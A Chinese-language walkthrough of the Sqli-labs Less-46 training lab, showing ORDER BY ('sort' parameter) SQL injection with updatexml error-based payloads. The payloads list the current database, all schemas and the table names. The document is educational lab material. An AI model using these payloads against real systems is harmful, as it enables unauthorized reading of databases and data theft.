 
# Sqli-labs-Less-46
![](https://img-blog.csdnimg.cn/20200727102704950.png#crop=0&crop=0&crop=1&crop=1&id=tis3B&originHeight=81&originWidth=1072&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
打开Sqli-labs-Less-46关后可以看到提示，显示要我们使用SORT进行注入<br />![](https://img-blog.csdnimg.cn/2020072710283554.png#crop=0&crop=0&crop=1&crop=1&id=zOGPP&originHeight=35&originWidth=410&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**输入http://www.web.com/sql/Less-46/?sort=1**<br />发现返回结果是账户和名称，是以ID值来排序的<br />![](https://img-blog.csdnimg.cn/20200727103415341.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=JdaUC&originHeight=460&originWidth=304&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**输入http://www.web.com/sql/Less-46/?sort=2**<br />返回结果是以username来排序的<br />![](https://img-blog.csdnimg.cn/20200727103707871.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=HgOOj&originHeight=470&originWidth=306&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**输入http://www.web.com/sql/Less-46/?sort=3**<br />返回结果是以password来排序的<br />![](https://img-blog.csdnimg.cn/20200727104207807.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=Wdg2l&originHeight=472&originWidth=311&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**总结：sort后面的参数是用来改变根据那一列来进行排列顺序。**

**在参数后面加上desc，发现进行反向排序**<br />http://www.web.com/sql/Less-46/?sort=3 desc<br />![](https://img-blog.csdnimg.cn/20200727104611805.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=zhJEW&originHeight=467&originWidth=346&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断注入点**<br />http://www.web.com/sql/Less-46/?sort=3'<br />报错，显示多了一个'说明在此处是没有进行包裹的<br />![](https://img-blog.csdnimg.cn/2020072710514082.png#crop=0&crop=0&crop=1&crop=1&id=SdLWl&originHeight=57&originWidth=1142&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看当前库**<br />http://www.web.com/sql/Less-46/?sort=3 union select 1,2,database()--+<br />报错，说明在此处不能使用union注入<br />![](https://img-blog.csdnimg.cn/20200727105245178.png#crop=0&crop=0&crop=1&crop=1&id=SgJRX&originHeight=105&originWidth=369&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**尝试使用报错注入**<br />http://www.web.com/sql/Less-46/?sort=3 and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+<br />成功<br />![](https://img-blog.csdnimg.cn/20200727105356274.png#crop=0&crop=0&crop=1&crop=1&id=CkuYC&originHeight=81&originWidth=270&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有库**<br />http://www.web.com/sql/Less-46/?sort=3 and updatexml(1,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata),0x7e),1)--+<br />![](https://img-blog.csdnimg.cn/20200727105456733.png#crop=0&crop=0&crop=1&crop=1&id=V7kav&originHeight=74&originWidth=457&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有表**<br />http://www.web.com/sql/Less-46/?sort=3 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),1)--+<br />![](https://img-blog.csdnimg.cn/20200727105552387.png#crop=0&crop=0&crop=1&crop=1&id=judCi&originHeight=101&originWidth=428&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
